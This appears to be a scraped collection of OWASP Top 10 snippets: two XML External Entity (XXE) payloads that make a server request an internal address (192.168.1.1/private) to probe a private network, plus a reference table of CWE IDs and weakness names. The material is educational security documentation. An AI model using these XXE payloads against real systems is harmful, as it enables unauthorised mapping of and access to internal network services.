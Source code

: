 ----------------------------------------

TITLE: XXE Attack: Probing Private Network
DESCRIPTION: This XML entity definition illustrates how an attacker can use an XXE vulnerability to probe internal or private networks by attempting to access a specific internal IP address and path, revealing network topology or accessible services.
SOURCE: https://github.com/owasp/top10/blob/master/2017/he/0xa4-xxe.md#_snippet_1

LANGUAGE: XML
CODE:
```
 <!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>
```

----------------------------------------

TITLE: XXE Attack: Probing Internal Network
DESCRIPTION: This XML snippet illustrates an XXE attack used to probe internal network systems. By changing the external entity's SYSTEM identifier to an internal IP address or URL (e.g., https://192.168.1.1/private), an attacker can attempt to make the server send requests to internal resources, potentially mapping the internal network or accessing restricted services.
SOURCE: https://github.com/owasp/top10/blob/master/2017/OWASP-Top-10-2017-pt-br.html#_snippet_1

LANGUAGE: XML
CODE:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>
  <foo>&xxe;</foo>
```

----------------------------------------

TITLE: Common Weakness Enumeration (CWE) ID to Name Mapping
DESCRIPTION: This table lists various Common Weakness Enumeration (CWE) IDs along with their corresponding names, providing a quick reference for identifying and categorizing vulnerabilities relevant to the OWASP Top 10 project. It includes common security weaknesses such as injection flaws, access control issues, and cryptographic weaknesses.
SOURCE: https://github.com/owasp/top10/blob/master/2021/Data/CWE-Guidance.md#_snippet_0

LANGUAGE: APIDOC
CODE:
```
CWE ID	| CWE Name
------------ | -------------
20	| Improper Input Validation
22	| Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')
77	| Improper Neutralization of Special Elements used in a Command ('Command Injection')
78	| Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')
79	| Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')
88	| Improper Neutralization of Argument Delimiters in a Command ('Argument Injection')
89	| Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')
90	| Improper Neutralization of Special Elements used in an LDAP Query ('LDAP Injection')
91	| XML Injection (aka Blind XPath Injection)
94	| Improper Control of Generation of Code ('Code Injection')
119	| Improper Restriction of Operations within the Bounds of a Memory Buffer
125	| Out-of-bounds Read
190	| Integer Overflow or Wraparound
200	| Exposure of Sensitive Information to an Unauthorized Actor
209	| Generation of Error Message Containing Sensitive Information
220	| Storage of File With Sensitive Data Under FTP Root
223	| Omission of Security-relevant Information
256	| Unprotected Storage of Credentials
269	| Improper Privilege Management
284	| Improper Access Control
285	| Improper Authorization
```